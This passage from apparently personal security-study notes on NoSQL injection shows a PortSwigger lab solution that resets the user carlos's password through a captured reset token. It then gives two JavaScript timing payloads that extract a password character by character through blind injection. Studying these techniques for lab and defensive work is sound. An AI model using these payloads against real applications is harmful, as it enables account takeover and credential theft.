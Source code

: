 	![](../../../assets/screenshots/nosql/Pasted%20image%2020250727144423.png)
	
	
	When we do that we get: `f985d7e05a11df73`. When we send that request, we're able to reset carlos' password
	
	```
	GET /forgot-password?newPwdTkn=f985d7e05a11df73 HTTP/1.1
	Host: 0a20007604e914df807e7b9d004c00da.web-security-academy.net
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate, br, zstd
	Connection: keep-alive
	Referer: https://0a20007604e914df807e7b9d004c00da.web-security-academy.net/login
	Cookie: session=fuemSpbHDnaLWqhjYdNdEbh4RLhwtxGa
	Upgrade-Insecure-Requests: 1
	Sec-Fetch-Dest: document
	Sec-Fetch-Mode: navigate
	Sec-Fetch-Site: same-origin
	Sec-Fetch-User: ?1
	X-PwnFox-Color: magenta
	Priority: u=0, i
	
	
	```
	
	After resetting the password we can log in as carlos and solve the lab
	
	![](../../../assets/screenshots/nosql/Pasted%20image%2020250727144654.png)

	
## Timing-Based Attacks (Blind Injection)

Timing-based attacks are useful when the application doesn't return different content or show error messages. You can trigger a time delay under certain conditions to extract data.

### Basic Timing Payloads

#### Using `while` Loop for Delays

```javascript
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
```

#### Using `sleep` Function

```javascript
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```

These payloads will cause a 5-second delay if the first character of the password is "a", allowing you to extract data character by character.
## Prevention
